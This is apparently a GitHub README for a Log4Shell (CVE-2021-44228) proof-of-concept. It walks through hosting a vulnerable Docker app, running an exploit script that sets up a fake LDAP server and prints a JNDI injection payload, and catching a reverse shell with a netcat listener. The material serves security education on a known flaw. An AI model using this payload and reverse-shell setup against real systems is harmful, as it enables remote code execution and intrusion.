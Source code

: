 A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>

Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have seen how to exploit log4j vulnerability with a simple vulnerable application

You can download the POC and its dependency file from here.

#### Usage:

* Step #1 : Clone & Download the Vulnerable application from above.<br>
* Step #2 : Install Docker and run the following commands to host a vulnerable application. <br>

    ```c
    1: # docker build -t log4j-shell-poc .
    2: # docker run --network host log4j-shell-poc
    ```
    Once it is running, you can access it on localhost:8080

    <br>

* Step #3 : Download and extract the POC folder from above link and install it dependencies.<br>

    ```py
    $ pip3 install -r requirements.txt
    $ python3 poc.py --userip localhost --webport 8000 --lport 4545

    [!] CVE: CVE-2021-44228

    [!] Github repo: https://github.com/Hack-with-8k0b/log4j-poc

    [+] Exploit java class created success
    [+] Setting up fake LDAP server

    [+] Send me: ${jndi:ldap://localhost:1389/a}

    Listening on 0.0.0.0:1389
    ```
    
* Step #4 : Start a netcat listener in different terminal to accept reverse shell connection.<br>
```py
nc -lvnp 4545
```
* Step #5 : Copy & paste the link created by the poc into the vulnerable input field .<br>

    This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Disclaimer
----------
The above POC and Vulnerable App is simplified version of kozmer's Github log4jshell-poc, This POC is for educational purposes only, so use it on your own risks.

This is to help security researchers and newbies to learn about log4jshell vulnerablity and attack, for any concerns and queries feel free to reach me out @ nbharathkumara@gmail.com
